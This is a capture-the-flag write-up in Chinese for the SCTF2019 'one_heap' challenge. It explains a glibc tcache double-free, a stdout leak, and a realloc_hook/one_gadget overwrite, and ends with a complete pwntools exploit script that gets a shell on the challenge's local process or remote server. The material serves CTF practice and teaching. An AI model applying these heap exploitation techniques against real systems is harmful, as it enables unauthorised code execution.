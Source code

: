 ```yaml
---
title: one_heap
categories:
- SCTF2019
---
```


# SCTF2019 one_heap

## 前言

SCTF2019第一题，通过限制free和malloc的次数考验技巧

## 程序逻辑

程序限制malloc的次数为15，free的次数为4次，存在double free，同时iput函数不会读入'\n'及之后的数据，因此输入'\n'即可保证不修改堆数据。

malloc的chunk地址存储在bss上，因此每次只能释放刚malloc的堆块

![new](./1.jpg)

free里可以double free

![free](./2.jpg)

![input](./3.jpg)

## 漏洞利用

首先用double free + 3次malloc将0x90的tcache bins的数量改为0xff，再free一个0x90的块即可让其放入unsorted bin。注意在free之前malloc一个块在它和top_chunk之间，避免unsorted bin与top chunk合并。

这时的效果是有一个unsorted bin和tcache bin重合，分配一个0x20的块，即可通过输入修改tcache的fd，下下次分配可以到这个地址上，这里修改后2字节爆破stdout结构体，分配一次0x90，下次就可以分配到stdout泄露地址。

这时候我们已经用了三次free，最后的一次free要配合chunk overlapping使用。

按照之前的设计，我们有一个chunk是避免unsorted bin合并的，我们分配一个大小为0x40的chunk，然后释放它，从而tcache bin[0x40]有一个堆。这里在其中构造一个fake chunk的prev_size和size，以绕过之后我们修改unsorted bin的检查

在刚才我们分配完0x20的堆块之后，已经出现了0x555555757310的unsorted bin和0x5555557572f0的tcache bins。我们通过Malloc(0x7f)修改掉unsorted bin的size为0x91(原本是0x61)，从而可以再下次分配分配到之前释放的0x40的tcache bin，进而修改其fd为任意地址，可以分配到这个地址上去。(下面0x20和0x90为之前构造绕过检查)

![bins](./4.jpg)

![bins1](./5.jpg)

最后我们覆盖malloc_hook为one_gadget发现打不通，因为gadgets的条件不满足。这里学习到了另一个技巧，即覆写realloc_hook为one_gadget，因为malloc_hook就在realloc_hook的后面，所以同时可以修改malloc_hook为realloc_addr+x，这个x为偏移，具体偏移多少要视情况而定。从而在执行malloc的时候执行malloc_hook->realloc+x->realloc_hook->one_gadget得到shell。

利用原理是realloc函数在函数起始会检查realloc_hook的值是否为0，不为0则跳转至realloc_hook指向地址。

流程为push寄存器，最后全部pop出来跳转至realloc_hook的值。
将realloc_hook设置为选择好的one_gadget，将malloc_hook设置为realloc函数开头某一push寄存器处。push和pop的次数是一致的，若push次数减少则会压低堆栈，改变栈环境。这时one_gadget就会可以使用。具体要压低栈多少要根据环境决定，这里我们可以进行小于48字节内或72字节的堆栈调整。

![push](./6.jpg)

![pop](./7.jpg)

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 1
gadgets = [0x4f2c5,0x4f322,0x10a38c,0xe569f,0xe5858,0xe585f,0xe5863,0x10a398]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def New(p,size,content):
    p.recvuntil('Your choice:')
    p.sendline('1')
    p.recvuntil('Input the size:')
    p.sendline(str(size))
    p.recvuntil('Input the content:')
    p.send(content)

def Delete(p):
    p.recvuntil('Your choice:')
    p.sendline('2')

def exp(p):
    New(p,0x7f,'a\n')#1
    New(p,0x7f,'a\n')#2

    Delete(p)#1
    Delete(p)#2
    New(p,0x30,p64(0)*4+p64(0x90)+'\x20'+'\n')#3 in case unsorted bin be involved by top chunk
    Delete(p)

    New(p,0x7f,'\n')#4

    New(p,0x7f,'\n')#5
    New(p,0x7f,'\n')#6

    Delete(p)#3
    #got unsorted bin
    New(p,0x20,'\x60\x07\xdd\n')#7

    New(p,0x7f,p64(0)*4+p64(0)+p64(0x91)+'\n')#8 make overlapping chunk


    New(p,0x7f,p64(0xfbad1800)+p64(0)*3+'\x00\n')#9

    p.recvn(8)
    libc_base = u64(p.recvn(8)) - (0x7ffff7dd18b0 - 0x7ffff79e4000)
    log.success('libc base => ' + hex(libc_base))
    realloc_hook = libc.symbols['__realloc_hook'] + libc_base
    realloc = libc_base + libc.symbols["realloc"]
    one_gadget = libc_base + 0x10a38c
    #get shell

    New(p, 0x68, p64(0) * 11 + p64(0x41) + p64(realloc_hook))#10
    #overwrite realloc_hook to one_gadget
    New(p,0x38,'\n')#11
    New(p,0x38,p64(one_gadget)+p64(realloc+4)+'\n')#12
    gdb.attach(p)
    #trigger
    New(p,0x20,'xmzyshypnc\n')#13



    p.interactive()

if debug:
    p = process('./one_heap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('47.104.89.129',10001)
    libc = ELF('./libc-2.27.so')

exp(p)
```

